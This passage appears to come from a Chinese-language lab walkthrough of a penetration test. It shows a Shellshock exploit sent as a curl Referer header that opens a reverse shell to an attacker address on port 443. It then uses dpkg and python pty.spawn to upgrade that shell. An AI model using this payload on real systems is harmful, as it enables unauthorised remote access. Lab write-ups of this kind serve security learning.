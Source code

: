 

```
sudo curl -v --proxy http://192.168.236.133:3128 http://192.168.236.133/cgi-bin/status -H "Referer:() { test;}; echo 0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;/bin/sh <&137 >&137 2>&137"
```

成功拿到一个不完整的shell


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231310258-556766142.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231310258-556766142.png)


不过这个shell的交互性很差，查询这台机器上安装的软件，如果有python的话，就可以用python实现一个交互性更好的shell


## python提升shell交互性


#### 查询机器上已安装的软件


dpkg \-l 是一个在基于 Debian 的 Linux 发行版中使用的命令，用于列出系统上所有已安装的软件包。这个命令会显示软件包的名称、版本、架构和简短描述等信息。


当你运行 dpkg \-l 命令时，输出通常会被分成几列，每一列的含义如下：


第一列是两个字母的状态标志。第一个字母表示期望状态（如 'u' 表示未知，'i' 表示安装），第二个字母表示实际状态（如 'n' 表示未安装，'i' 表示已安装）。


第二列是软件包的名称。


第三列是软件包的版本号。


第四列是软件包的架构（例如，amd64, i386）。


第五列及之后的部分是软件包的简短描述。


如果你想要查看特定类型或名称的软件包，可以结合使用管道和 grep 命令来过滤输出。例如，要查找所有与 'python' 相关的已安装软件包，你可以运行：


dpkg \-l \| grep python


这将只显示包含 'python' 字符串的行。


靶机回显是有python的


#### python将普通Shell升级为交互式Shell


一下命令都是python升级交互式Shell的脚本，测试后发现前两个是能用的，第三个不能用



```
python -c 'import pty;pty.spawn("/bin/bash")'

这条命令使用了 pty 模块来创建一个伪终端（pseudo-terminal）。伪终端可以提供更接近于真实终端的交互体验，包括支持终端控制字符和信号处理。因此，这种方式启动的 shell 会话具有更好的交互性，可以像普通终端一样使用。
```
